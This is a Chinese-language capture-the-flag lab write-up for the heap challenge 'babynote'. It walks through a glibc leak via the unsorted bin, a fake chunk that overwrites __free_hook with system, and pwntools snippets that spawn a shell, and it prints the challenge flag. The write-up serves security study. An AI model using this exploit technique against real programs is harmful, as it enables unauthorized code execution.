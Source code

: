 # lab_babynote

1. 這題是個heap選單題，而有四個選項，而我的想法是想辦法可以透過 [4.show](http://4.show) 可以去印出記憶體裡面的資訊，然後一開始先看 source code 裡面，每個選項做的事情，然後也嘗試執行並把每個選項 run 過一遍，可以大概知道 1.add_note 跟 2. edit_note 都會建立新的 chunk ，然後 3.delete ，會free 所選的 chunk ，4. show 會 print 出chunk 裡面的 data 資訊。

![截圖 2022-12-07 下午4.38.35.png](lab_babynote%20b0885d49e249438e889de7026c972dcb/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25884.38.35.png)

![截圖 2022-12-07 下午4.38.51.png](lab_babynote%20b0885d49e249438e889de7026c972dcb/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25884.38.51.png)

![截圖 2022-12-07 下午4.40.04.png](lab_babynote%20b0885d49e249438e889de7026c972dcb/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25884.40.04.png)

![截圖 2022-12-07 下午4.40.34.png](lab_babynote%20b0885d49e249438e889de7026c972dcb/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25884.40.34.png)

1. 因為 unsorted bin 的 bk 會在 free 的時候指向 glibc 的 base address ，可以利用這點，來 leak 出 glibc 的 base address，然後我開始去嘗試了很多組合，但好像沒有辦法達到我要的效果，因此這邊先按照講師給的提示去堆疊 heap  : 
add(0, “A”*8 ) → edit(0, 0x418, “A”) → add(1, “B”*8) → edit(1, 0x18, “B) → add(2, “C”*8) → delete(0)
    
    ![截圖 2022-12-07 下午5.12.02.png](lab_babynote%20b0885d49e249438e889de7026c972dcb/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25885.12.02.png)
    
2. 然後取得 glibc 的 base address ，可以用 gdb 去看它跟 free hook 及 system 之間的距離，可以發現它跟 free_hook 及 system 之間的 offset 分別是 0x1eee48 及 0x52290 ，因此可以利用這些資訊去構造一個 fake chunk 。

```python
show()
r.recvuntil(b'data: ')
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x1ecbe0
free_hook = libc + 0x1eee48
system = libc + 0x52290
info(f"libc: {hex(libc)}")
```

```python
data = b'/bin/sh\x00'.ljust(0x10,b'B')
fake_chunk = flat(
    0,  0x21,
    b'CCCCCCCC', b'CCCCCCCC',
    free_hook
    )
```

1. 構造完 fake_chunk 後，將它 edit(1, 0x38, data + fake_chunk) ，可以蓋過，下面的 chunk ，並且把 free_hook 寫進去，然後將 edit( 2, 0x8, p64(system) ) 寫入system 的位址，讓它可以達到呼叫 free 時會變成執行 system(“/bin/sh”) 的效果。

![截圖 2022-12-07 下午5.48.57.png](lab_babynote%20b0885d49e249438e889de7026c972dcb/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25885.48.57.png)

![截圖 2022-12-07 下午9.00.11.png](lab_babynote%20b0885d49e249438e889de7026c972dcb/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25889.00.11.png)

1. 最後執行 delete(1)，雖然是呼叫 free(B->data)，但實際上是執行 system(“/bin/sh”)，就可以成功取得shell ，並 cat home/chal/flag 來取得FLAG{babynote^_^_de9187eb6f3cbc1dce465601015f2ca0}。
    
    ![截圖 2022-12-07 下午9.16.53.png](lab_babynote%20b0885d49e249438e889de7026c972dcb/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25889.16.53.png)